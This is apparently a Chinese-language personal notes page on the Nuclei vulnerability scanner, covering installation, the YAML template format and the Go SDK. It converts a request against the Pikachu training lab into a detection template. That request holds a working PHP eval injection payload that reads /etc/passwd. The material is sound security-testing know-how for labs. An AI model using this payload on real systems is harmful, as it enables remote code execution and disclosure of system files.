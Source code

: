 # nuclei

---

- [nuclei](#nuclei)
  - [安装](#安装)
  - [templates](#templates)
  - [Go SDK](#go-sdk)

---

> [projectdiscovery/nuclei：Nuclei 是一款快速、可定制的漏洞扫描器，由全球安全社区提供支持，并构建在简单的基于 YAML 的 DSL 上，支持协作解决互联网上的趋势漏洞。它可以帮助您查找应用程序、API、网络、DNS 和云配置中的漏洞。 --- projectdiscovery/nuclei: Nuclei is a fast, customizable vulnerability scanner powered by the global security community and built on a simple YAML-based DSL, enabling collaboration to tackle trending vulnerabilities on the internet. It helps you find vulnerabilities in your applications, APIs, networks, DNS, and cloud configurations.](https://github.com/projectdiscovery/nuclei)

Nuclei 是一款现代的高性能漏洞扫描器，它利用简单的基于 YAML 的模板。它使您能够设计模仿现实世界条件的自定义漏洞检测场景，从而实现零误报。

- 使用简单 YAML 格式用于创建和自定义漏洞模板
- 由数千名安全专业人员贡献，以解决热门漏洞
- 通过模拟真实世界的步骤来验证漏洞从而降低误报
- 超快并行扫描处理和请求聚类
- 集成到 CI/CD 管道中进行漏洞检测和回归测试
- 支持多种协议，如 TCP、DNS、HTTP、SSL、WHOIS JavaScript、代码等
- 集成 Jira、Splunk、GitHub、Elastic、GitLab。

---

官方推荐将 nuclei 作为独立命令行工具使用而非作为服务运行, 否则可能存在安全风险

---

## 安装

:::tabs

@tab:active Go

```bash
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
```

> - 成功安装 Nuclei 需要最新的 GO 版本
> - 这条命令会触发拉取很多依赖库, 时间可能会比较长

---

@tab 二进制文件

直接在 `https://github.com/projectdiscovery/nuclei/releases` 下载对应的可执行程序

![image-20241119112516136](http://cdn.ayusummer233.top/DailyNotes/202411191125297.png)

![image-20241119142714714](http://cdn.ayusummer233.top/DailyNotes/202411191427019.png)

![image-20241119142743183](http://cdn.ayusummer233.top/DailyNotes/202411191427294.png)

![image-20241119142816477](http://cdn.ayusummer233.top/DailyNotes/202411191428521.png)

![image-20241119142847834](http://cdn.ayusummer233.top/DailyNotes/202411191428890.png)

可以给程序目录加个 PATH:

![image-20241119153635903](http://cdn.ayusummer233.top/DailyNotes/202411191536008.png)

:::

---

## templates

> [projectdiscovery/nuclei-templates: 社区维护的 nuclei 引擎模板列表，用于发现安全漏洞。 --- projectdiscovery/nuclei-templates: Community curated list of templates for the nuclei engine to find security vulnerabilities.](https://github.com/projectdiscovery/nuclei-templates)

 Template 是 nuclei 扫描器的核心, 它驱动着实际的扫描引擎。[projectdiscovery/nuclei-templates: Community curated list of templates for the nuclei engine to find security vulnerabilities.](https://github.com/projectdiscovery/nuclei-templates) 存储和托管官方团队提供的以及社区贡献的各种扫描器模板。

下面是一个简单的 HTTP 类型漏洞的 Nuclei  Template 示例:

```yaml
id: example-vulnerability # 模板的唯一标识符

info: # 模板的基本信息
  name: 示例漏洞检测 # 模板名称,简要描述模板的功能。
  author: 安全研究员 # 作者名称
  severity: medium # 漏洞严重程度,可选值为 info、low、medium、high、critical。
  description: 检测示例漏洞的模板 # 模板描述
  reference:
    - https://example.com/vulnerability # 参考链接
  tags: 示例,漏洞 # 模板标签，便于分类

http: # 定义 HTTP 请求的列表
  - method: GET # HTTP 请求方法
    path:
      - "{{BaseURL}}/vulnerable/path" # 请求路径，{{BaseURL}} 为目标基 URL
    headers: # 请求头（可选）
      User-Agent: Nuclei Scanner
    matchers-condition: and # 匹配条件（and/or）
    matchers:
      - type: word # 匹配器类型：关键字匹配;(可选值: word（关键字匹配）、regex（正则匹配）、status（状态码匹配）)
        part: body # 匹配响应的部分（此处为响应体）(可选body（响应体）、header（响应头）等)
        words:
          - "Vulnerable response" # 要匹配的关键字
      - type: status
        status:
          - 200 # 预期的 HTTP 状态码
```

在上述模板中，工具将向目标的 `/vulnerable/path` 发送一个 GET 请求。匹配器将检查响应状态码是否为 200（正常响应），并且响应体中是否包含关键字 `"Vulnerable response"`。只有在满足所有匹配条件的情况下，模板才认为目标存在该漏洞。

---

例如将如下 Pikachu RCE EXEC Eval 的 HTTP 请求改成 nuclei template

```http
POST /vul/rce/rce_eval.php HTTP/1.1
Host: 192.168.1.215:9221
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.215:9221/vul/rce/rce_eval.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9tru1fbi3fto5uguhu9fd395ie
Connection: close

txt=echo+file_get_contents%28%27%2Fetc%2Fpasswd%27%29%3B&submit=%E6%8F%90%E4%BA%A4
```

---

```yaml
id: pikachu_rce_eval_cat_password # 模板的唯一标识符

info:
  name: PikachuRCEEval # 模板名称
  author: 233 # 作者名称
  severity: high # 漏洞严重程度
  description: |
    pikachu_rce_eval_cat_password 检测 /vul/rce/rce_eval.php 路径下是否存在远程命令执行漏洞，通过提交恶意命令并检查响应内容。
  reference:
    - "https://gitlab.hillstonenet.com/a-dlab/adlab-wiki/-/blob/main/漏洞信息库/命令执行类/命令执行_pikachu-rce-exec-eval/命令执行_pikachu-rce-exec-eval.md" # 参考链接
  tags: rce,PHP,pikachu

http:
  - method: POST # HTTP 请求方法
    path:
      - "{{BaseURL}}/vul/rce/rce_eval.php" # 请求路径，{{BaseURL}} 为目标基 URL
    headers:
      Content-Length: "82" # 内容长度
      Cache-Control: "max-age=0" # 缓存控制
      Upgrade-Insecure-Requests: "1" # 升级不安全请求
      Content-Type: "application/x-www-form-urlencoded" # 内容类型
      User-Agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36" # 用户代理
      Accept: "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9" # 接受的内容类型
      Referer: "{{BaseURL}}/vul/rce/rce_eval.php" # 引用页
      Accept-Encoding: "gzip, deflate" # 接受的编码
      Accept-Language: "zh-CN,zh;q=0.9" # 接受的语言
      Cookie: "PHPSESSID=9tru1fbi3fto5uguhu9fd395ie" # Cookie
      Connection: "close" # 连接方式
    body: "txt=echo+file_get_contents%28%27%2Fetc%2Fpasswd%27%29%3B&submit=%E6%8F%90%E4%BA%A4" # 请求体
    matchers-condition: and # 匹配条件
    matchers:
      - type: word # 匹配器类型：关键字匹配
        part: body # 匹配响应体
        words:
          - "root:x:0:0:" # 用于确认 /etc/passwd 内容的关键字
      - type: status # 匹配器类型：状态码匹配
        status:
          - 200 # 预期的 HTTP 状态码
```

然后可以用 nuclei 跑这个 template:

![image-20241122150629171](http://cdn.ayusummer233.top/DailyNotes/202411221506408.png)

---

## Go SDK

> [nuclei 包 - github.com/projectdiscovery/nuclei/v3/lib - Go 包 --- nuclei package - github.com/projectdiscovery/nuclei/v3/lib - Go Packages](https://pkg.go.dev/github.com/projectdiscovery/nuclei/v3@v3.1.10/lib#section-readme)

Nuclei 主要是一个 CLI 工具，但随着越来越多的用户希望将其作为库在自己的自动化中使用，其在 v3 中添加了一个简化的 nuclei 库/SDK

---

### 安装 Nuclei Go SDK

使用以下命令将 nuclei 作为库添加到 go 项目中:

```bash
go get -u github.com/projectdiscovery/nuclei/v3/lib
```




























